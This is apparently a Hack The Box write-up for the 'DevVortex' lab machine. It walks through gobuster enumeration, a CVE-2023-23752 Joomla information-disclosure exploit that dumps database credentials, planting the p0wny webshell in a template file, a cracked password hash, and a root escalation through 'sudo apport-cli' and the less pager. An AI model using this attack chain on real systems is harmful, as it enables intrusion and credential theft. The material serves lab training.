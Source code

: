 DevVortex

# Enumeration

Check nmap-scan. 
Open Ports are 80 and 22 . Moreover port 80 redirects to http://devvortex.htb/

So let's add this one to hosts-file

```
echo '10.10.11.242 devvortex.htb' | sudo tee -a /etc/hosts
```

## Vhost discovery

```
gobuster vhost -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain -t 40 -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://devvortex.htb
[+] Method:          GET
[+] Threads:         40
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/11/26 12:04:27 Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 4989 / 4990 (99.98%)
Found: dev.devvortex.htb Status: 200 [Size: 23221]
===============================================================
2023/11/26 12:04:35 Finished
===============================================================
```

```
echo '10.10.11.242 dev.devvortex.htb' | sudo tee -a /etc/hosts
```

## Dir Discovery

```
gobuster dir -u http://dev.devvortex.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://dev.devvortex.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/11/26 14:55:59 Starting gobuster in directory enumeration mode

....
many 403
....
/administrator        (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/administrator/]
/api                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/api/]
/api/experiments      (Status: 406) [Size: 29]
/api/experiments/configurations (Status: 406) [Size: 29]
/cache                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/cache/]
/components           (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/components/]
/home                 (Status: 200) [Size: 23221]
/images               (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/images/]
/includes             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/includes/]
/index.php            (Status: 200) [Size: 23221]
/language             (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/language/]
/layouts              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/layouts/]
/libraries            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/libraries/]
/media                (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/media/]
/modules              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/modules/]
/plugins              (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/plugins/]
/robots.txt           (Status: 200) [Size: 764]
/templates            (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/templates/]
/tmp                  (Status: 301) [Size: 178] [--> http://dev.devvortex.htb/tmp/]

```

## Joomla Version detection

At http://dev.devvortex.htb/README.txt the Joomla Version 4.2 get revealed.

## Grab Login Creds

Joomla! information disclosure - CVE-2023-23752 exploit

```
git clone https://github.com/Acceis/exploit-CVE-2023-23752

cd exploit-CVE-2023-23752

 ruby exploit.rb http://dev.devvortex.htb                                                                            │
Users                                                                                                                 │
[649] lewis (lewis) - lewis@devvortex.htb - Super Users                                                               │
[650] logan paul (logan) - logan@devvortex.htb - Registered                                                           │
                                                                                                                      │
Site info                                                                                                             │
Site name: Development                                                                                                │
Editor: tinymce                                                                                                       │
Captcha: 0                                                                                                            │
Access: 1                                                                                                             │
Debug status: false                                                                                                   │
                                                                                                                      │
Database info                                                                                                         │
DB type: mysqli                                                                                                       │
DB host: localhost                                                                                                    │
DB user: lewis                                                                                                        │
DB password: P4ntherg0t1n5r3c0n##                                                                                     │
DB name: joomla                                                                                                       │
DB prefix: sd4fg_                                                                                                     │
DB encryption 0
```

## Edit Joomla templates

Edit the Error-Template under the following url:
```
http://dev.devvortex.htb/administrator/index.php?option=com_templates&view=template&id=223&file=L2Vycm9yLnBocA%3D%3D&isMedia=0
```

Or got to 'System' --> 'Site Templates' --> 'Cassiopeia Details and Files' --> 'error.php'

Replace the Content with the ponyshell or your prefered shell

```
https://raw.githubusercontent.com/flozz/p0wny-shell/master/shell.php
``` 

Using webshell at following url:
```
http://dev.devvortex.htb/templates/cassiopeia/error.php
```

Rest might come the next days, after some ppl like to change passes/hashes makes it harder for the rest of us. 

Here just in short form

1. get hashes from mysql, crack it and you got the userflag
```
logan | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12:tequieromucho
```
2. check out sudo -l permission
3. Run the command allowed as sudo
```
sudo apport-cli -c /bin/mysql less
```
That's so far the fastest way instead of less you can take any other command or just use the -f argument and create one by yourself wait till it fails to send and view the rerport.
The important step is to view a report and get the pager which is default less where you can just type commands.
4. type !sh and you got a root shell.

